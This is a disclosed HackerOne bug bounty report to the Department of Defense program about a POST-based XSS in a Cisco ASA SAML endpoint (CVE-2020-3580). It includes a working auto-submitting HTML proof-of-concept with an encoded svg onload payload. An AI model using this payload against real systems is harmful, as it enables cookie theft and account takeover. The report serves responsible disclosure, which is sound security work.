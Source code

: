 # XSS DUE TO CVE-2020-3580

## Report Details
- **Report ID**: 1245048
- **URL**: https://hackerone.com/reports/1245048
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-26T11:36:25.701Z
- **Disclosed**: 2021-07-29T19:45:44.091Z

## Reporter
- **Username**: vess_razz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello Team,
During my research, I found the following host to be vulnerable to CVE 2020-3580 which is POST BASED XSS.

Vulnerable URL: https://█████/+CSCOE+/saml/sp/acs?tgname=a

## Impact

Attackers can steal cookies and even takeover accounts and perform different malicious activities.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Save Following code as xss.html and open in any browser:
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://███/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
